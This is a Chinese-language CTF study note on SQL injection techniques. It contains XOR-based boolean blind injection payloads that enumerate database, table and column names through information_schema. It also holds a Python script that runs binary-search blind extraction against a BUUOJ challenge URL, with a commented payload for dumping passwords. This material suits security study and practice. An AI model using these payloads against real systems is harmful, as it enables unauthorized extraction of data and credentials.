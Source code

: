 ## **sql注入考点**
有可能flag在表中，有可能sql注入出账户密码再登录后配置其他漏洞。

利用报错，布尔，二次注入获取同库不同表的记录。

高权限注入：常规查询，跨库查询，文件读写。
堆叠注入：不限制于查询语句，甚至提权命令执行。

## **布尔盲注**
部分sql盲注入如逻辑布尔盲注回显差异，需要使用代码一个一个字符跑出来。

异或盲注?id=1^1^1，
1^1同为0
1^0异为1
1^1^1值为1
1^0^1值为0
在这个前提下，分析回显内容的字符差异，进行布尔盲注，代码中使用二分法加快布尔盲注。
```
substr("abc",1,1)获取第一位置的1个字符
ord()字符转ascii的数值
ascii()字符转ascii的数值

先判断是否布尔差异，并判断过滤字符
1^length(database())>4
1^(length(database())=4)
1^length(database())<4


布尔，再异或的差异，获取表名
1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1))>0)^1
[*] F1naI1y,Flaaaaag~
猜测列名
1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='表名')),1,1))>0)^1
猜测列的值
1^(ord(substr((select(group_concat(列名))from(表名)),1,1))>0)^1

从中可以利用二分法加速
select ascii() %s %d   
python中%s运算符%d每次的中间值，比较的结果select
```
基本脚本模板
```
# [极客大挑战 2019]FinalSQL
# 异或布尔差异
# 先注出库名，在注入表名，表名中注出字段名，注出字段对应值。
# 使用select group_concat()带出字段所有的记录值为一个字符串。
# 使用布尔差异+二分法判断得出这个字符串内容。

import requests
import time

url = "http://f104602b-272b-426a-ae30-5c34b4510270.node5.buuoj.cn:81/search.php?"
temp = {"id": ""}
column = ""
for i in range(1, 1000):
    time.sleep(0.06)
    low = 32
    high = 128
    mid = (low + high) // 2
    while (low < high):
        # 库名
        # temp["id"] = "1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1" % (i, mid)
        # temp["id"] = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, mid)

        # 表名
        # temp["id"] = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1" %(i,mid)
        # 字段名
        # temp["id"] = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1" %(i,mid)
        # 内容
        # temp["id"] = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" %(i,mid)
        r = requests.get(url, params=temp)
        time.sleep(0.04)
        # print(low, high, mid, ":")
        if "Click" in r.text: #回显差异，存在Click字符则是对了
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 127):
        break
    column += chr(mid)
    print(column)

print("All:", column)
```






^
## **二次注入**

往往可以注册，先把payload注入数据库，
再在另一个页面，如查询详细资料，修改信息提交前等，会查询出来并二次直接查询数据库，造成二次注入。
一般是报错回显。